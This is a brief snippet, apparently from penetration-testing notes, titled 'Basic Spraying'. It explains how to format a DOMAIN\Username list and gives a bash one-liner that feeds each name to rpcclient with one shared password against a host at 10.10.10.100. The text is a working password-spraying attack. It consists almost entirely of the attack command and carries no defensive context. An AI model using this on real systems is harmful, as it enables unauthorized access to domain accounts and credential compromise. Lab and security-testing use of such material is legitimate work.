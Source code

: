 Basic Spraying

Create a username list formatted like the following:

DOMAIN\\Username

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
cat usernames.txt | while read line; do echo $line && rpcclient -U “$line%P@ssw0rd12” -c “getusername;quit” 10.10.10.100; done
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
